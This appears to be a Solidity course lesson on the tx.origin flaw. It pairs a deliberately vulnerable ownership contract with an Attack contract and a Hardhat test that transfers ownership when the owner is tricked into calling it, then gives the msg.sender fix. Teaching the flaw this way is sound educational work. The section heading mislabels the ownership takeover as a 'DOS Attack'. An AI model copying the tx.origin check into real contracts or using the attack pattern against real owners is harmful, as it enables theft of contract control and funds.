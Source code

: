 # Attack with tx.origin

`tx.origin` is a global variable which returns the address that created the original transaction. It is kind of similar to `msg.sender`, but with an important caveat. We will learn how incorrect use of tx.origin could lead to security vulnerabilities in smart contracts.

<Quiz questionId="19f27642-5123-4ca0-8dc2-888901bc1a70" />

Lets goo 🚀


## What is tx.origin?

`tx.origin` is a global variable which returns the address of the account which sent the transaction. Now you might be wondering then what is `msg.sender` 🤔. The difference is that `tx.origin` refers to the original external account (which is the user) that started the transaction and `msg.sender` is the immediate account that called the function and it can be an external account or another contract calling the function.

So for example, if User calls Contract A, which then calls contract B within the same transaction, `msg.sender` will be equal to `Contract A` when checked from inside `Contract B`. However, `tx.origin` will be the `User` regardless of where you check it from.

<Quiz questionId="f1794e7c-a213-438e-a44e-4ba8af40fdae" />
<Quiz questionId="8c7cdf4d-f222-4e4f-8f52-111883ebf624" />

## DOS Attack on a smart contract

### What will happen?

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol`. Initially the owner of `Good.sol` will be a good user. Using the attack function `Attack.sol` will be able to change the owner of `Good.sol` to itself.


### Build

Lets build an example where you can experience how the the attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```

- If you are not on mac, please do this extra step and install these libraries as well :)

  ```bash
  npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

First, let's create a contract named `Good.sol` which is essentially a simpler version of `Ownable.sol` that we have previously used.

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;


contract Good  {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function setOwner(address newOwner) public {
        require(tx.origin == owner, "Not owner" );
        owner = newOwner;
    }
}
```

Now, create a contract named `Attack.sol` within the `contracts` directory and write the following lines of code

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    Good public good;
    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public {
        good.setOwner(address(this));
    }
}
```

Now lets try immitating the attack using a sample test, create a new file under `test` folder named `attack.js` and add the following lines of code to it

```javascript
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("Attack.sol will be able to change the owner of Good.sol", async function () {
    // Get one address
    const [_, addr1] = await ethers.getSigners();

    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.connect(addr1).deploy();
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    let tx = await _attackContract.connect(addr1).attack();
    await tx.wait();

    // Now lets check if the current owner of Good.sol is actually Attack.sol
    expect(await _goodContract.owner()).to.equal(_attackContract.address);
  });
});
```

The attack will happen as follows, initially `addr1` will deploy `Good.sol` and will be the owner but the attacker will somehow fool the user who has the private key of `addr1` to call the `attack` function with `Attack.sol`. 

When the user calls `attack` function with `addr1`,  `tx.origin` is set to `addr1`. `attack` function further calls `setOwner` function of `Good.sol` which first checks if `tx.origin` is indeed the owner which is `true` because the original transaction was indeed called by `addr1`. After verifying the owner, it sets the owner to `Attack.sol` 

And thus attacker is successfully able to change the owner of `Good.sol` 🤯

To run the test, in your terminal pointing to the root directory of this level execute the following command

```bash
npx hardhat test
```

When the tests pass, you will notice that the owner of `Good.sol` is now `Attack.sol`

## Real Life Example
While this may seem obvious to most of you, as `tx.origin` isn't something you see being used at all, some developers do make this mistake. You can read about the [THORChain Hack #2 here](https://rekt.news/thorchain-rekt2/) where users lost millions in $RUNE due to an attacker being able to get approvals on $RUNE token by sending a fake token to user's wallets, and approving that token for sale on Uniswap would transfer $RUNE from the user's wallet to the attacker's wallet because THORChain used `tx.origin` for transfer checks instead of `msg.sender`.

<Quiz questionId="88403387-338e-4a18-9c2f-9c73b4841c43" />

## Prevention

- You should use `msg.sender` instead of `tx.origin` to not let this happen

Example:

```solidity

function setOwner(address newOwner) public {
    require(msg.sender == owner, "Not owner" );
    owner = newOwner;
}

```

Hope you liked this level ❤️, keep building.

WAGMI 🚀

<Quiz questionId="e9fac2b4-c5f3-4fc9-acd7-26ca40ea12b5" />

## References
- [Solidity by example](https://solidity-by-example.org/)

<SubmitQuiz />
